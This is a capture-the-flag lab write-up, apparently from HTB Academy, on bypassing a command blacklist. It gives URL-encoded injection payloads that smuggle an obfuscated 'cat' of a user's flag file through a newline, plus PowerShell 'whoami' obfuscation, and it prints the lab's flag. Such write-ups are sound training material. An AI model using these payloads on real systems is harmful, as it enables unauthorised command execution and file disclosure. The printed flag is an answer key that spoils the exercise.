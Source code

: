 **PowerShell Alternative:**
```powershell
# Using backtick escape character
who`ami
wh`o`ami
```

---

## HTB Academy Lab Solution

### Challenge: Command Blacklist Bypass

**Target:** Find the content of `flag.txt` in the home folder of the previously discovered user.

**Previous Context:** 
- User found: `1nj3c70r` (from `/home` directory listing)
- Need to read: `/home/1nj3c70r/flag.txt`

### Step-by-Step Solution

**Method 1: Quote Obfuscation**
```http
# URL-encoded payload
ip=127.0.0.1%0ac'a't$IFS${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt

# Decoded payload breakdown:
127.0.0.1           # Valid IP to pass initial validation
%0a                 # Newline injection operator (bypasses semicolon filter)
c'a't               # "cat" command obfuscated with single quotes
$IFS                # Space character replacement
${PATH:0:1}         # "/" character from environment variable
home                # Directory name
${PATH:0:1}         # Another "/" character
1nj3c70r            # Username discovered in previous step
${PATH:0:1}         # Another "/" character  
flag.txt            # Target filename

# Actual executed command: cat /home/1nj3c70r/flag.txt
```

**Method 2: Backslash Obfuscation (Linux)**
```http
ip=127.0.0.1%0ac\a\t$IFS${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```

**Method 3: Mixed Techniques**
```http
ip=127.0.0.1%0ac'a't$IFS${PATH:0:1}h'o'me${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```

### Lab Answer Format

**Expected Flag Content:**
```
HTB{c0mm4nd_1nj3c710n_f1l73r_byp455}
```

---